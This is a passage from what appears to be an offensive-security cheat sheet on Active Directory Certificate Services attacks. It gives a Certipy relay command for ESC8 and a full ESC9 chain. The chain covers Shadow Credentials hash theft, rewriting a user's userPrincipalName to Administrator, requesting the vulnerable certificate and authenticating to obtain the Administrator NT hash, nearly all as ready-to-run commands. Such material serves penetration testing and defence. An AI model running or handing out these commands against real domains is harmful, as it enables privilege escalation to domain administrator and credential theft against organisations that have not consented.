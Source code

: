   ```powershell
  remote          -       Remote machine to trigger authentication from.
  username        -       Username for non-domain context.
  password        -       Password for non-domain context.
  dc              -       Domain controller to query for Certificate Templates (LDAP).
  unc             -       Set custom UNC callback path for EfsRpcOpenFileRaw (Petitpotam) .
  output          -       Output path to store base64 generated crt.
  ```

* **Version 5**: Certipy ESC8
  ```ps1
  certipy relay -ca 172.16.19.100
  ```


## ESC9 - No Security Extension

**Requirements**

* `StrongCertificateBindingEnforcement` set to `1` (default) or `0`
* Certificate contains the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value
* Certificate specifies `Any Client` authentication EKU
* `GenericWrite` over any account A to compromise any account B

**Scenario**

John@corp.local has **GenericWrite** over Jane@corp.local, and we want to compromise Administrator@corp.local. 
Jane@corp.local is allowed to enroll in the certificate template ESC9 that specifies the **CT_FLAG_NO_SECURITY_EXTENSION** flag in the **msPKI-Enrollment-Flag** value.

* Obtain the hash of Jane with Shadow Credentials (using our GenericWrite)
    ```ps1
    certipy shadow auto -username John@corp.local -p Passw0rd -account Jane
    ```
* Change the **userPrincipalName** of Jane to be Administrator. :warning: leave the `@corp.local` part
    ```ps1
    certipy account update -username John@corp.local -password Passw0rd -user Jane -upn Administrator
    ```
* Request the vulnerable certificate template ESC9 from Jane's account.
    ```ps1
    certipy req -username jane@corp.local -hashes ... -ca corp-DC-CA -template ESC9
    # userPrincipalName in the certificate is Administrator 
    # the issued certificate contains no "object SID"
    ```
* Restore userPrincipalName of Jane to Jane@corp.local.
    ```ps1
    certipy account update -username John@corp.local -password Passw0rd -user Jane@corp.local
    ```
* Authenticate with the certificate and receive the NT hash of the Administrator@corp.local user. 
    ```ps1
    certipy auth -pfx administrator.pfx -domain corp.local
    # Add -domain <domain> to your command line since there is no domain specified in the certificate.
    ```
